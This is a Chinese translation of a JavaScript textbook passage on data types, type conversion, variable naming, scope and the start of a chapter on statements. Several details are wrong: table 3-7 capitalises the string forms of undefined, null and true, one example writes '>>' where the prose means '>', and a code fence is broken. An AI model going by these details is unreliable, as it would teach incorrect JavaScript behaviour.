接下来是一个使用转义码和引号的示例。（X）HTML 会自动将多个空白字符"折叠"为一个空白字符。因此，例如，在 HTML 中包含多个连续的制表符在显示时只会显示为一个空格字符。

在这个示例中，使用 `<pre>` 标签告诉浏览器该文本是预格式化的，不应折叠其中的空白字符。使用 `<pre>` 可以使示例中的制表符在输出中正确显示。结果如图 3-1 所示。



```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="en">
<head>
<title>String Example</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body>
<pre>
<script type="text/javascript">
<!--
document.write("Welcome to JavaScript strings.\n");
document.write("This example illustrates nested quotes 'like this.'\n");
document.write("Note how newlines (\\n's) and ");
document.write("escape sequences are used.\n");
document.write("You might wonder, \"Will this nested quoting work?\"");
document.write(" It will.\n");
document.write("Here's an example of some formatted data:\n\n");
document.write("\tCode\tValue\n");
document.write("\t\\\n\tnewline\n");
document.write("\t\\\\\\\tbackslash\n");
document.write("\t\\\"\tdouble quote\n\n");
//-->
</script>
</pre>
</body>
</html>
```

##### 布尔值

布尔值的名称源于 19 世纪逻辑学家 George Boole，他开发了真/假逻辑系统，后来数字电路就是基于此构建的。考虑到这一点，布尔值取两个值之一也就不足为奇了：**true** 或 **false**。

像 x < y 这样的比较表达式会根据比较结果为**真**还是**假**来求值为一个布尔值。因此，像 **if/else** 这样的控制结构的条件会被求值为布尔值，以确定执行哪段代码。例如，

```
if (x == y)
{
    x = x + 1;
}
```

如果 x 等于 y 的比较结果为**真**，则将 x 加 1。

你可以显式地使用布尔值来达到相同的效果，如

```
var doIncrement = true;

if (doIncrement)         // if doIncrement is true then increment x
{
    x = x + 1;
}
```

或

```
if (true)                    // always increment x
{
    x = x + 1;
}
```

布尔值通常作为对象属性来表示开/关状态。例如，Internet Explorer 的 **Navigator** 对象的 **cookieEnabled** 属性（**navigator.cookieEnabled**）是一个布尔值，当用户启用了持久性 cookie 时其值为 **true**，否则为 **false**。访问该属性的示例如下：

```
if (navigator.cookieEnabled)
{
    alert("Persistent cookies are enabled");
}
else
{
    alert("Persistent cookies are not enabled");
}
```

在启用了持久性 cookie 的 Internet Explorer 中使用时，结果为



> **注意** 某些 Netscape 浏览器不支持此属性，因此它们总是显示第二条消息（"Persistent cookies are not enabled"）。这是因为如果布尔变量未被赋值，则会默认分配一个 **false** 的值。

##### Undefined 和 Null

*undefined* 类型用于不存在或尚未赋值的变量或对象属性。*undefined* 类型唯一能拥有的值是 **undefined**。例如，声明一个变量而不赋值，

```
var x;
```

会将 *x* 赋予 *undefined* 类型和值。访问一个不存在的对象属性，

```
var x = String.noSuchProperty;
```

同样会导致 **undefined** 被赋值给 x。

**null** 值表示一个空值；它本质上是一个代表"什么都没有"的占位符。*undefined* 和 **null** 值之间的区别比较微妙。简而言之，**undefined** 表示值尚未设置，而 **null** 表示值已被设置为空。

JavaScript 的设计者为什么要允许如此容易混淆的区别呢？不深入探讨晦涩的细节，实际上在某些情况下它是有用的，特别是在你使用该语言的面向对象特性时。例如，假设你正在编写一个对象，其名为 **doFancyStuff()** 的方法的功能依赖于仅由某些浏览器提供的特性。你可能会进行一些浏览器检测，如果浏览器支持所需特性，就适当地定义 **doFancyStuff()** 函数。但如果用户使用的是无法识别的浏览器，你可能会将 **doFancyStuff** 设置为 **null** 来表示该方法不可用。这样，你就可以区分以下几种情况：该特性被支持（**doFancyStuff** 是一个函数）、该特性未被支持（**doFancyStuff** 为 **null**）以及浏览器检测代码尚未运行（**doFancyStuff** 为 **undefined**）。

还有一个需要特别注意的地方：**null** 值被定义为一个空对象。因此，对保存 **null** 值的变量使用 **typeof** 运算符会显示其类型为 **object**。相比之下，`undefined` 数据的类型为 **undefined**。

###### 区分 Null 和 Undefined 数据

JavaScript 提供了 **null** 关键字来支持 **null** 值的比较和赋值。遗憾的是，**undefined** 关键字仅存在于现代浏览器中（Netscape 6+ 和 Internet Explorer 5.5+）。解决方案在于 **null** 和 **undefined** 值的比较结果是相等的。因此，你可以通过与 **null** 进行比较来检查无效值。例如，给定以下声明，

```
var x;

var y = null;
```

以下比较结果为**真**：

```
if (x == null)
{
  // do something
}

if (x == y)
{
  // do something
}
```

但是，需要注意的是，对于前面的声明，以下代码，

```
if (z == null)
{
  // do something
}
```

会导致运行时错误。原因是 z 不仅仅是 `undefined`，它根本不存在。


### 复合类型

对象构成了 JavaScript 中所有非原始类型的基础。对象是一种复合类型，可以包含原始类型和复合类型。原始类型和复合类型的主要区别在于，原始类型仅以固定值集合的形式包含数据（例如数字）；而对象既可以包含原始数据，也可以包含代码（方法）和其他对象。从第 6 章开始，将详细讨论对象。在本节中，我们仅简要介绍其用法，并主要关注其作为数据类型的特征。

###### 对象

*对象*是一个集合，可以包含原始或复合数据，包括函数和其他对象。对象的数据成员称为*属性*，成员函数称为*方法*。有些读者可能更倾向于将属性视为对象的特征，将对象执行的操作视为其方法，但含义是相同的。

属性通过在对象名称后直接加上一个句点和属性名称来访问。例如，浏览器的版本信息存储在 **Navigator** 对象的 **appVersion** 属性中。访问此属性的一种方式是
`alert("Your browser version is: " + navigator.appVersion);`

该代码在 Internet Explorer 5.5（美国国内版）中的结果类似于以下内容：



对象的方法以相同的方式访问，但在方法名称后直接加上括号。这些括号向解释器表明，该属性是你想要调用的方法。**Window** 对象有一个名为 **close** 的方法，用于关闭当前浏览器窗口：
`window.close();`

如果方法接受参数，则将参数包含在括号中。我们已经看到了这种用法的常见示例，即 **Document** 对象的 **write** 方法：
`document.write("This text is written to the document.");`

####### 内置对象

JavaScript 提供了许多强大的对象供开发者使用。这些对象包括特定于浏览器的对象，例如 **Window**，它包含与浏览器窗口相关的信息和方法。例如，如前所述，`window.open()` 可用于创建一个窗口。像 **Document** 这样的对象包含更多对象，这些对象映射到窗口中文档的各种特性和标签。例如，要查看文档的最后修改日期，我们可以引用 `document.lastModified` 属性。此外，还有许多在 JavaScript 语言中定义的对象，可以简化常见任务。这类对象的例子包括 **Date**、**Math** 和 **RegExp**。最后，JavaScript 中的每种数据类型都有一个对应的对象。因此，存在 **String**、**Number**、**Boolean**、**Array**，甚至 **Object** 对象。

####### 创建对象

用户定义的对象使用 **new** 关键字，后跟对象名称和括号来创建。需要括号的原因是对象是使用*构造函数*创建的，构造函数是创建新对象实例供你使用的方法。括号告诉解释器你想要调用给定对象的构造函数方法。以下代码创建了一个全新的 **String** 对象：

```
var myString = new String();
```

JavaScript 中对象的一个很好的特性是你可以动态地为它们添加属性。例如，要创建自己的对象并用两个文本字段填充它，你可以执行以下操作：

```
var myLocation = new Object();

myLocation.city = "San Francisco";

myLocation.state = "California";
```

如果你根据以往的经验对对象的概念还不完全熟悉，不用担心。第 6 章将更详细地解释它。目前需要理解的重要内容是：如何使用 `.`（如 `myLocation.city`）访问属性的语法，属性和方法之间的表示法差异，以及你确实可以创建自己的对象。

### 数组

JavaScript 中对象的一个重要变体是复合类型 **Array**，它是一个对象，但通常具有不同的创建和访问语法。*数组*是一个有序列表，可以包含原始和复杂数据类型。在其他编程语言中，数组有时被称为*向量*或*列表*，而在 JavaScript 中实际上是 **Array** 对象。数组的成员称为*元素*。数组元素从零开始编号。也就是说，每个元素都被分配一个*索引*，一个非负整数，表示其在数组中的位置。你可以将数组想象成一系列标记为 0、1、2 等的盒子。你可以将一段数据放入一个盒子中，例如盒子 5，然后通过访问索引为 5 的元素来检索该数据。单个数组元素通过在数组名称后跟包含所需索引的方括号（`[` 和 `]`）来访问。例如，要在数组元素 5 中放置一个字符串然后检索它，你可以编写：

```
myArray[5] = "Hamburgers are nice, sushi is better.";

var x = myArray[5];
```

如上所示，单独设置数组的值可能相当乏味，有更直接的方法来填充数组。数组字面量由方括号括起来的逗号分隔值列表指定。以下定义了一个包含四个数字和一个字符串的新数组：

```
var myArray = [2, 4, 6, 8, "ten"];
```

如果你想定义一个数组但稍后填充它，你可以以类似的方式定义一个空数组：

```
var myArray = [];
```

因为数组实际上是 **Array** 对象，所以你可以使用对象语法来声明一个新数组：

```
var myArray = new Array();
```

然后你可以根据前面讨论的语法来访问数组。

此时，只需记住数组和对象其实并没有那么不同。事实上，主要的区别在于数组更注重顺序，而我们使用不同的表示法来访问数组。我们将在第 7 章更详细地讨论数组。

#### 函数

*函数*是另一种特殊的 JavaScript 对象类型，它包含可执行代码。函数通过在函数名称后跟括号来调用（或*调用*）。函数可以接受*参数*（或*形参*），这些是在调用函数时*传递*给函数的数据片段。参数作为逗号分隔的值列表给出，位于函数调用的括号内。以下函数调用传递了两个参数，一个字符串和一个数字：

```
myFunction("I am an item", 67);
```

该调用向 *myFunction* 传递了两样东西，一个字符串和一个数字，函数将使用它们来执行其任务。你应该注意到这与方法调用的相似之处：

```
document.write("The value of pi is: ", 3.14);
```

在这种情况下，调用了 **Document** 对象的 **write** 方法，向当前浏览器窗口输出一个字符串。方法和函数确实密切相关。一种简单的思考方式是，函数似乎不与任何对象关联，而方法是明显附加到对象上的函数。有趣的是，一旦你深入了解函数和对象，世界会变得相当复杂，你会发现函数在 JavaScript 中确实是*一等数据类型*。这意味着函数与其他非原始类型一样被对待。它们可以被赋值给变量，传递给其他函数，并可以动态地创建或销毁。我们将在第 5 章更详细地讨论这一切的含义。

#### typeof 运算符

如果你对数据的类型感到好奇，可以使用 **typeof** 运算符来检查它。应用于变量或字面量时，它返回一个字符串，表示其参数的类型。**typeof** 返回的值列表如表 3-4 所示。

##### 表 3-4：typeof 运算符返回的值

| 类型 | 结果 |
|---|---|
| Undefined | undefined |
| Null | object |
| Boolean | boolean |
| Number | number |
| String | string |
| Object | object |
| Function | function |


### 类型转换

自动类型转换是 JavaScript 最强大的特性之一，但对于粗心的程序员来说，也是最危险的特性。*类型转换*是将一种类型的数据转换为另一种类型的操作。在 JavaScript 中，当你更改存储在变量中的数据类型时，类型转换会自动发生：

```
var x = "3.14";

x = 3.14;
```

`x` 的类型从字符串变为数字。除了 JavaScript 本身固有的自动转换外，程序员也可以通过 **toString()** 或 **parseInt()** 等方法强制进行转换。

虽然这看起来很简单，但类型转换的问题在于它往往以不那么明显的方式发生，例如当你对不同类型的数据进行运算时。看看这段代码：

```
var x = "10" - 2;
```

这个例子是从字符串中减去一个数字，乍一看似乎非常奇怪。然而 JavaScript 知道减法需要两个数字，因此它将字符串 "10" 转换为数字 10，执行减法运算，并将数字 8 存储在 `x` 中。

事实上，自动类型转换在 JavaScript 中随处可见，只要数据的类型不是某个任务所需的类型时就会发生。例如，我们之前提到过，像 **if/else** 这样的流程控制语句，其条件部分（括号之间的部分）的类型是布尔值。这意味着对于如下语句，

```
var x = "false"; // a string

if (x) {
  alert("x evaluated to the Boolean value true");
}
```

解释器必须以某种方式将给定的字符串转换为布尔值，以确定是否应该执行 **if** 语句的主体。

同样，由于 HTML 文档由文本组成，解释器必须将以下示例中的数字转换为字符串，才能将其写入页面：

```
var x = 21.84e22; // a number

document.write(x); // x is automatically converted to a string here
```

重要的问题是：解释器使用什么规则来执行这些转换？

#### 基本类型的转换规则

基本类型的转换规则见表 3-5、3-6 和 3-7。你可以使用这些表来回答类似如下示例中的问题：

表 3-5：转换为布尔值的结果

| 类型 | 转换为布尔值 |
|------|------|
| Undefined | **false** |
| Null | **false** |
| Number | 如果为 0 或 NaN 则为 **false**，否则为 **true** |
| String | 如果字符串长度为 0 则为 **false**，否则为 **true** |
| 其他对象 | **true** |

表 3-6：转换为数字的结果

| 类型 | 转换为数字 |
|------|------|
| Undefined | NaN |
| Null | 0 |
| Boolean | 如果为 **true** 则为 1，如果为 **false** 则为 0 |
| String | 如果字符串看起来像数字则为其对应的数值，否则为 NaN |
| 其他对象 | NaN |

表 3-7：转换为字符串的结果

| 类型 | 转换为字符串 |
|------|------|
| Undefined | "Undefined" |
| Null | "Null" |
| Boolean | 如果为 **true** 则为 "True"，如果为 **false** 则为 "false" |
| Number | "NaN"、"0"，或该数值的字符串表示 |
| 其他对象 | 对象的 **toString()** 方法的返回值（如果存在），否则为 "undefined" |

```
var x = "false";  // a string

if (x) {

  alert("x evaluated to the Boolean value true");

}
```

由于除空字符串（""）之外的所有字符串都转换为布尔值 **true**，因此条件成立并执行了该语句，用户看到了提示框。

这些类型转换规则意味着像下面这样的比较

1 == true

0 == ""

的结果为 **true**。但有时你不想在检查相等性时应用类型转换，因此 JavaScript 提供了严格相等运算符（**===**）。该运算符仅在两个操作数相等*且*具有相同类型时才求值为 **true**。因此，例如，以下比较结果为 **false**：

```
1 === true

0 === ""

0 === "0"
```

JavaScript 解释器如何确定大多数运算符所需的类型是相当自然的，对于大多数开发者来说不是必须掌握的知识。例如，执行算术运算时，类型会被转换为数字，然后执行计算。

一个重要的例外是 `+` 运算符。`+` 运算符用于数字的加法运算，但同时也用作字符串的连接运算符。由于字符串连接的优先级高于数字加法，如果任一操作数是字符串，`+` 就会被解释为字符串连接。例如，以下两条语句

`x = "2" + "3";`

`x = "2" + 3;`

都会将字符串 "23" 赋值给 x。第二条语句中的数字 3 在连接操作执行之前被自动转换为字符串。

#### 基本数据到对象的提升

前面提到过，每种基本类型都有一个与之对应的对象。这些对象提供了用于操作基本数据的有用方法。例如，`String` 对象提供了一个将字符串转换为小写的方法：`toLowerCase()`。你可以在 `String` 对象上调用此方法：

`var myStringObject = new String("ABC");`

`var lowercased = myStringObject.toLowerCase();`

JavaScript 有趣的地方在于，你也可以在基本字符串数据上调用它：

`var myString = "ABC";`

`var lowercased = myString.toLowerCase();`

还可以在字面量上调用：

`var lowercased = "ABC".toLowerCase();`

关键在于，JavaScript 在必要时会自动将基本数据转换为对应的对象。在前面的示例中，解释器知道 `toLowerCase` 方法需要一个 `String` 对象，因此它自动且临时地将基本字符串转换为对象来调用该方法。

#### 显式类型转换

大多数编程任务的现实情况是，手动执行类型转换可能比依赖解释器为你完成更好。一个绝对如此的场景是处理用户输入时。通过对话框和（X）HTML 表单获取的用户输入通常以字符串形式出现。经常需要在字符串和数字类型之间显式转换此类数据，以防止 `+` 运算符执行错误的操作（例如，执行连接而非加法，或反之）。JavaScript 提供了多种工具来进行显式类型转换，例如对象的 `toString()` 方法以及 `Global` 对象的 `parseInt()` 和 `parseFloat()` 方法。这些方法将在后面的章节（特别是第 7 章）中深入讨论，届时它们的应用将变得更加清晰。

### 变量

由于变量是任何编程语言中最重要的方面之一，了解变量声明和引用的影响对于编写清晰、行为良好的代码至关重要。为变量选择好的名称很重要，理解如何准确确定一个名称所引用的变量也同样重要。

#### 标识符

*标识符*是变量或函数的名称。在 JavaScript 中，标识符可以由字母、数字、下划线和美元符号的任意组合构成。标识符唯一的正式限制是它们不能匹配任何 JavaScript 保留字或关键字，且第一个字符不能是数字。关键字是 JavaScript 语言的词语，如 **string**、**Object**、**return**、**for** 和 **while**。保留字是将来可能成为关键字的词语。你可以在附录 E 中找到保留字和关键字的完整列表。

##### 选择好的变量名

编写清晰、易懂代码最重要的方面之一是为变量选择合适的名称。应避免使用过长或难以理解的标识符。

虽然 JavaScript 允许你给变量取一个像 `_$0_$` 这样晦涩的名称，但在实践中这样做是个坏主意。强烈不建议在标识符中使用美元符号；它们是为机械生成的代码设计的，在 JavaScript 1.2 之前不被支持。尽管在实践中常见，但以下划线开头也不是个好主意。解释器内部的变量通常以下划线开头，因此使用类似的命名约定可能导致混淆。

变量的名称应该提供一些关于其目的或值的信息，而这些信息仅从上下文中并不明显。例如，以下标识符可能不太合适：

```
var _ = 10;

var x = "George Washington";

var foobar = 3.14159;

var howMuchItCostsPerItemInUSDollarsAndCents = "$1.25";
```

更合适的可能是

```
var index = 10;

var president = "George Washington";

var pi = 3.14159;

var price = "$1.25";
```

你还应该为复合类型使用合适的名称。例如，

`var anArray = ["Mon", "Tues", "Wed", "Thurs", "Fri"];`

对于这个数组来说是一个糟糕的标识符选择。在脚本后面，完全不清楚 `anArray[3]` 的值可能是什么。更好的选择是

`var weekdays = ["Mon", "Tues", "Wed", "Thurs", "Fri"];`

这样当后面使用 `weekdays[3]` 时，读者可以大致了解数组包含的内容。函数名也类似。一个用于求和的函数可以叫做 **calc()**，但 **sumAll()** 可能更好。

##### 大小写


因为 JavaScript 是区分大小写的，*weekdays* 和 *weekDays* 指的是两个不同的变量。因此，不建议选择彼此非常相似的标识符。同样，也不建议选择与常见对象或属性相近或相同的标识符。这样做可能会导致混淆甚至错误。不过，大小写在命名约定中确实扮演着重要角色。JavaScript 程序员喜欢用驼峰式（camel-back）风格来规范变量的大小写。按照这一约定，变量名中每个单词的首字母都要大写，但第一个单词除外。例如，一个用于保存文档正文文本颜色的变量可以命名为 *bodyTextColor*。这一约定与浏览器对象属性的命名方式一致，因此强烈建议新手程序员也采用这种用法。

##### 短变量名

JavaScript 程序员喜欢使用非常短的变量名，比如 *x*，以减少需要传输到客户端的字符数量。原因是发送的字符越少，下载时间就越快。尽管对于非常大的脚本，终端用户可能会注意到下载时间上的差异，但与如今网页中典型图像的大小相比，使用短变量名节省的几百个字符几乎微不足道。此外，去掉了注释和描述性变量名的 JavaScript 代码非常难以理解，尽管这可能是故意的。想想看，你可能不希望任何人阅读或理解你的代码。然而，如果期望除你之外的其他人来维护或修复你的脚本，这可能就非常糟糕了。你可以通过使用各种自动化的 JavaScript "压缩" 工具，在将脚本发布到网站之前完成这项任务，从而兼顾两方面的好处。从这个意义上说，就像处理普通代码一样，你可以保留原始脚本的可读形式，但在网站上使用经过压缩和混淆的 JavaScript 来获得速度提升。一个不错的选择是 [www.w3compiler.com](http://www.w3compiler.com) 上的 W3Compiler。

##### 一致的变量命名

如果你的组织中有多人从事 JavaScript 开发，或者你维护着大量的脚本（比如超过半打），那么为变量采用一种命名约定是非常明智的做法。开发并坚持使用一致的命名风格可以提高代码的可读性和可维护性。

#### 变量声明

正如我们在众多示例中看到的，变量使用 **var** 关键字声明。多个变量可以通过逗号分隔一次性声明。变量也可以在声明时通过赋值来初始化起始值。以下都是合法的变量声明：

```
var x;

var a, b, c;

var pi, index = 0, weekdays = ["M", "T", "W", "Th", "F"];
```

在最后的声明中，*pi* 被赋值为 **undefined**，*index* 被初始化为零，而 *weekdays* 被初始化为一个包含五个元素的数组。

##### 隐式变量声明

JavaScript 的一个"特性"是隐式变量声明。当你在赋值语句的左侧使用一个未声明的变量时，该变量会自动被声明。

例如，许多开发者会选择

```
numberOfWidgets = 5;
```

而不是

```
var numberOfWidgets;

numberOfWidgets = 5;

或者

var numberOfWidgets = 5;
```

虽然看起来第一种选择更简单，但事实上隐式声明是一种极其糟糕的编程风格，永远不应该使用。原因之一是，读者无法区分隐式变量声明和对封闭作用域中同名变量的引用。另一个原因是，即使在函数内部使用，隐式声明也会创建一个全局变量。使用隐式声明会导致糟糕的编码风格、意外的变量覆盖和模糊的代码——简而言之，不要使用它。

#### 变量作用域

变量的作用域是程序中该变量可见的所有部分。可见意味着该变量已被声明并可供使用。在程序中处处可见的变量具有全局作用域。仅在特定上下文中可见的变量——例如，在函数中——具有局部作用域。上下文是构成执行环境的已定义数据的集合。当浏览器启动时，它会创建 JavaScript 将执行的全局上下文。这个上下文包含 JavaScript 语言特性的定义（例如 Array 和 Math 对象），以及浏览器特定的对象如 Navigator。

**注意** *如果你是 JavaScript 初学者，你可能只想略读接下来关于作用域的几节内容，等你对这门语言更熟悉后再回来深入学习。*

##### 变量作用域与函数

当函数被调用时，解释器会在其执行期间创建一个新的局部上下文。在函数中声明的所有变量（包括其参数）都只存在于这个上下文中。当函数返回时，该上下文被销毁。因此，如果你想在多次函数调用之间保留一个值，可能需要声明一个全局变量。

**注意** *JavaScript 缺少像 C 语言那样的静态变量——你必须使用全局变量来实现这种效果。*

当在函数中引用一个变量时，解释器首先会在局部上下文中查找该名称的变量。如果该变量没有在局部上下文中声明，解释器会检查封闭上下文。如果在封闭上下文中也未找到，解释器会递归地重复这一过程，直到找到该变量或到达全局上下文为止。

需要注意的是，上下文的检查是相对于源代码而言的，而不是当前的调用树。这种类型的作用域称为静态作用域（或词法作用域）。这样，局部声明的变量可以隐藏在外部上下文中声明的同名变量。下面的例子说明了变量隐藏：

```
var scope = "global";

function myFunction()

{

var scope = "local";

document.writeln("The value of scope in myFunction is: " + scope);

}

myFunction();

document.writeln("The value of scope in the global context is: " + scope);
```

结果如图 3-2 所示。局部变量 scope 隐藏了同名的全局变量 scope 的值。注意，如果从 myFunction 的第一行省略 var，就会将全局变量 scope 赋值为 "local"。



**图 3-2：** 局部变量隐藏同名的全局变量。

关于变量作用域有一些重要的细微之处。首先是每个浏览器窗口都有自己的全局上下文。因此，乍一看并不清楚如何访问和操作其他浏览器窗口中的数据。幸运的是，JavaScript 通过提供对框架和其他命名窗口的访问，使你能够这样做。跨窗口交互的机制将在后面的章节中介绍，特别是 [第 12 章](#)。

与作用域相关的第二个细微之处是，无论变量在上下文中哪里声明，它在整个上下文中都是可见的。这意味着在函数末尾声明的变量在整个函数中都是可见的。然而，声明中包含的任何初始化只在执行到该行代码时才执行。结果是，有可能在变量初始化之前就访问它，如以下示例所示：

```
function myFunction()
{
    document.writeln("The value of x before initialization in myFunction is: ", x);
    var x = "Hello there!";
    document.writeln("The value of x after initialization in myFunction is: ", x);
}

myFunction();
```

结果如 [图 3-3](#) 所示。注意 *scope* 在初始化之前具有 **undefined** 值。


图 3-3：变量可能可见但尚未初始化。

第三个细微之处与静态作用域有关。考虑以下代码：

```
var scope = "global";

function outerFunction()
{
    var scope = "local";
    innerFunction();
}

function innerFunction()
{
    alert("The value of scope is: " + scope);
}

outerFunction();
```

其结果为：

此示例说明了静态作用域的一个关键方面：在 *innerFunction* 中看到的 *scope* 值是存在于全局上下文中的值："global"。它看不到在 *outerFunction* 中设置的值。该 *scope* 的值对于该函数是局部的，在其外部不可见。通过检查原始 JavaScript 源代码中的封闭上下文，找到了 *scope* 的正确值。解释器可以通过“静态”检查程序文本来推断正确的值。因此得名“静态作用域”。

##### 变量作用域与事件处理程序

我们看到，在函数内部声明的变量对于该函数是局部的。同样的规则适用于包含在事件处理程序中的 JavaScript：事件处理程序的文本是其自身的上下文。以下脚本说明了这一点。它声明了一个全局变量 *x* 以及一个在事件处理程序内的变量 *x*：

```
<script type="text/javascript">

var x = "global";

</script>

<form action="#" method="get">

<input type="button" value="Mouse over me first"

onmouseover="var x = 'local'; alert('Inside this event hander x is ' + x);" />

<input type="button" value="Mouse over me next! "

onmouseover="alert('Inside this event hander x is ' + x);" />

</form>
```

将鼠标移到第一个按钮上，可以看到该上下文中的 *x* 值已设置为 "local"。然后将鼠标移到第二个按钮上，你可以看到该 *x* 与全局 *x* 不是同一个。第二个按钮打印的值是 "global"，表明在第一个处理程序中设置的 *x* 不是同名的全局变量。

请记住，因为 JavaScript 是静态作用域的，所以只有在事件处理程序*文本内*声明的变量才拥有自己的上下文。考虑这个示例：

```
<script type="text/javascript">

var x = "global";

function printx()

{

alert("Inside this function x is " + x);

}

</script>

<form action="#" method="get">

<input type="button" value="Mouse over me!"

onmouseover="var x = 'local'; printx();" />

</form>
```

你可以看到打印出的 *x* 值是 "global"。静态作用域再次起作用：由于函数 *printx* 的上下文是全局的，它看不到在事件处理程序文本中设置的局部值。

##### 执行上下文

前面关于变量名称如何解析的讨论暗示了这样一个事实：执行上下文是动态变化的，并且相互嵌套。例如，如果在事件处理程序的文本中引用的变量在该事件处理程序的上下文中找不到，解释器会通过查找同名的全局变量来“扩大”其视图。你可以将事件处理程序的局部上下文视为存在于全局上下文*之内*。如果一个名称无法在本地解析，就会检查封闭的（全局）作用域。

事实上，这正是思考 JavaScript 中执行上下文的正确方式。一个 (X)HTML 文档可以被视为一系列嵌套的上下文：一个包围一切的 JavaScript 全局作用域，其中包含一个浏览器上下文，浏览器上下文中又包含当前窗口。窗口内是一个文档，文档中可能包含一个带有按钮的表单。如果在按钮上下文中执行的脚本引用了一个在按钮上下文中未知的变量，解释器将首先搜索表单的上下文，然后是文档、窗口、浏览器，最终是全局上下文。

其确切工作原理的细节构成了 JavaScript 的*对象模型*，这是后面章节讨论的主题。要精通 JavaScript 编程，并不真正需要全面掌握这个主题，但它对于理解脚本可用的对象从何而来以及它们如何关联*大有帮助*。它也将大大有助于将你与普通的 JavaScript 开发者区分开来！

---

### 总结

JavaScript 提供了五种基本数据类型：数字、字符串、布尔值、undefined 和 null。其中，undefined 和 null 是特殊类型，不用于存储数据。对复杂类型的支持包括复合类型（对象和数组）以及函数。数组和函数是特殊种类的对象。每种基本类型都关联一个对象，该对象提供用于操作该类数据的有用方法。变量的作用域是静态的：如果在引用变量的执行上下文中找不到该变量，解释器会递归搜索封闭上下文（如源代码中定义的）以查找其值。由于 JavaScript 是弱类型的，当两个不相等的数据类型进行运算时，会执行自动类型转换。这个功能很强大，但也可能导致歧义和微妙的错误。总是鼓励 JavaScript 新手在一个公共位置定义变量，并在脚本执行过程中保持数据类型的一致性。下一章将讨论如何以有意义的方式操作数据值以及如何改变程序流程。

### 第 4 章：运算符、表达式和语句

本章概述了每个脚本的基本构建模块：运算符、表达式和语句。[上一章](...)介绍的数据类型直接用作字面量，或者与简单运算符（如加法、减法等）结合在变量中以创建表达式。*表达式* 是一个代码片段，可以被求值为语言支持的某种数据类型。例如，2+2 是一个数值为 4 的表达式。表达式又用于构成*语句*——脚本执行的最基本单元。语句的执行使用条件逻辑和循环来控制。

对于那些编程新手来说，在阅读本章后，简单的脚本应该开始变得有意义。对于有经验的程序员来说，本章应该没有惊喜，因为 JavaScript 与许多其他语言相似：算术和逻辑运算符是语言的一部分，传统的命令式流程控制结构如 **if**、**while** 和 **switch** 也是如此。经验丰富的程序员可能只需要浏览本章。

### 语句基础

一个 JavaScript 程序由语句组成。例如，我们在[上一章](...)中看到的一个常见语句是为变量赋值。这里的语句使用关键字 **var** 定义变量，并使用赋值运算符（**=**）为它们设置值。

```
var x = 5;
```

```
var y = 10;
```

赋值使用 **=** 运算符，将右侧的值放入左侧的变量中。例如，

```
x = y + 10;
```

将 *y* 加 10，并将结果（20）放入 *x*。

#### 空白字符

JavaScript 中标记之间的空白字符无关紧要。例如，以下两个语句是等价的：

```
x                        = y +  10      ;

x=y+10;
```

然而，不要由此认为空白字符不重要；恰恰相反，它对初学者来说可能非常棘手。例如，虽然以下两个是等价的，

```
var x  =    5;

var x=5;
```

但如果你移除关键字 **var** 和 *x* 之间的空格，你会得到

```
varx=5;
```

这实际上会创建一个名为 *varx* 的新变量。在其他情况下，你会看到省略空白字符会导致语法错误。这尤其常见，因为在 JavaScript 中，换行符用于终止语句。

#### 终止：分号和换行

分号主要用于表示 JavaScript 语句的结束。例如，你可以通过用分号分隔将多个语句放在一行：

```
x = x + 1;  y = y + 1;  z = 0;
```

你也可以将更复杂甚至空语句放在一行：

 x = x + 1; ; ; if (x >> 10) { x = 0; }; y = y - 1;
```

在递增*x*之后，解释器跳过两个空语句，如果*x*大于10则将*x*设为零，最后递减*y*。如你所见，在一行中包含多个语句会使代码难以阅读，因此应当避免。

尽管分号通常跟在语句后面，但如果语句之间用换行符分隔，则可以省略分号。以下语句，

```
x = x + 1

y = y - 1
```

与以下语句等价

```
x = x + 1;

y = y - 1;
```

